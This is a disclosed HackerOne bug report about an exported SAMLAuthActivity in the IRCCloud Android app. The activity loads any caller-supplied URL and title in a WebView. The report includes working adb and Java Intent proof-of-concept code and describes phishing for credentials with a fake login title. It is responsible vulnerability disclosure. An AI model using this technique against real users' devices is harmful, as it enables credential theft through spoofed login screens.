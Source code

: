 # [IRCCloud Android] Opening arbitrary URLs/XSS in SAMLAuthActivity

## Report Details
- **Report ID**: 283058
- **URL**: https://hackerone.com/reports/283058
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-10-26T11:30:14.005Z
- **Disclosed**: 2017-11-03T11:37:05.224Z

## Reporter
- **Username**: bagipro
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: irccloud

## Vulnerability Information
Hi, I'd like to report a bug which allow to open arbitrary URLs in ```com.irccloud.android.activity.SAMLAuthActivity```

This activity is exported:
```xml
        <activity android:name="com.irccloud.android.activity.SAMLAuthActivity" android:theme="@style/dawn" android:windowSoftInputMode="adjustResize">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </activity>
```
it means that it can be accessed by any third-party apps installed on the same device. On the newest Androids it also could be exploited by Android Instant Apps directly from a web-browser.

In file ```  ``` can see that it opens attacker provided URLs
```java
        if (getIntent() == null || !getIntent().hasExtra("auth_url")) {
            finish();
            return;
        }
        getSupportActionBar().setTitle(getIntent().getStringExtra("title"));
        this.mWebView.loadUrl(getIntent().getStringExtra("auth_url"));
```

PoC from ADB:
```
adb shell am start -n com.irccloud.android/com.irccloud.android.activity.SAMLAuthActivity -e title "ATTAAACK" -e auth_url "http://google.com/"
```

PoC in Java:
```java
        Intent intent = new Intent();
        intent.setClassName("com.irccloud.android", "com.irccloud.android.activity.SAMLAuthActivity");
        intent.putExtra("title", "ATTAAACK");
        intent.putExtra("auth_url", "http://google.com/");
        startActivity(intent);
```

Result:
{F233002}
{F233003}

It's dangerous because user doesn't see real URL. Attacker can open anything and specify any title (like "IRCCloud: Login Required"), and using that trick steal user credentials.

You can test this issue by yourself, APK is attached

## Attachments
- 2017-10-26_14-17-33.jpg
- 2017-10-26_14-15-36.jpg
- app-release.apk

